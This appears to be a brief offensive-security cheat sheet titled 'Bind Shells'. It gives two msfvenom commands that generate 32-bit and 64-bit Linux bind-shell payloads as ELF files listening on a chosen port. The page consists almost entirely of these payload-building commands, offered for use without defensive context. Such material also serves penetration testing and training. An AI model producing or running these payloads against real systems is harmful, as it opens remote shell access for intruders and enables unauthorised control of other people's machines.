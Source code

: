 # Bind Shells

1. x86 (32-bit) Payloads

`$ msfvenom -p linux/x86/shell_bind_tcp lport=<PORT> -f elf -o shell-x86`

2. x86-64 (64-bit) Payloads

`$ msfvenom -p linux/x64/shell_bind_tcp lport=<PORT> -f elf -o shell-x86-64`